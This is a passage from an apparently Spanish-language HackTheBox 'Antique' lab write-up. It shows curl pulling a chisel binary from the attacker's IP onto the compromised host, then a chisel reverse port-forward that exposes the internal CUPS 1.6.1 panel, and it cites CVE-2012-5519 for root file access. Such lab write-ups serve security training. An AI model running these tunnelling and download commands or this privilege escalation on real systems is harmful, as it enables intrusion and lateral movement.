 Desde el equipo comprometido, nos descargaremos el `chisel`, le daremos permisos de ejecución y lo configuraremos para que actúe como cliente y nos realice el **Port Forwarding** del puerto que nos interesa.

```bash
lp@antique:/tmp$ curl http://10.10.16.5/chisel -o /tmp/chisel
curl http://10.10.16.5/chisel -o /tmp/chisel
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 9152k  100 9152k    0     0  2934k      0  0:00:03  0:00:03 --:--:-- 2933k
lp@antique:/tmp$ chmod +x chisel
chmod +x chisel
lp@antique:/tmp$ ./chisel client 10.10.16.5:1234 R:631:127.0.0.1:631
./chisel client 10.10.16.5:1234 R:631:127.0.0.1:631
2025/01/27 00:33:11 client: Connecting to ws://10.10.16.5:1234
2025/01/27 00:33:11 client: Connected (Latency 32.031023ms)
```

Desde nuestor navegador, accederemos a http://127.0.0.1:631 y verificaremos que se trata del panel de Administración de **CUPS**. Además logramos verificar la versión **1.6.1**.

<figure><img src="../../.gitbook/assets/imagen (283).png" alt=""><figcaption></figcaption></figure>

Revisando posibles vulnerabilidades de esta versión de `CUPS`, nos encontramos con el siguiente `CVE-2012-5519`.

{% embed url="https://www.incibe.es/index.php/incibe-cert/alerta-temprana/vulnerabilidades/cve-2012-5519" %}

{% hint style="danger" %}
CUPS v1.4.4, cuando se ejecuta en ciertas distribuciones de Linux como Debian GNU/Linux, almacena la la clave de la interfaz web del administrador en /var/run/cups/certs/0 con ciertos permisos, lo que permite a los usuarios locales en el grupo lpadmin leer o escribir archivos arbitrarios como root mediante el aprovechamiento de la interfaz web.
{% endhint %}
